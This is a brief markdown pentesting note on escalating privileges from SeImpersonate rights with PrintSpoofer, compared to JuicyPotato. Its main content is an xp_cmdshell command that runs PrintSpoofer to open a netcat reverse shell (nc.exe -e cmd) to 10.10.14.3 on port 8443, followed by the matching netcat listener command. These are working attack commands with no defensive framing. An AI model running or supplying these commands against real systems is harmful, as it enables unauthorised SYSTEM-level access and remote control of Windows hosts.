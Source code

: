 Similar to [[JuicyPotato]]

### SeImpersonate Privs
```shell-session
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

Run NC listener
```
nc -lnvp 8443
```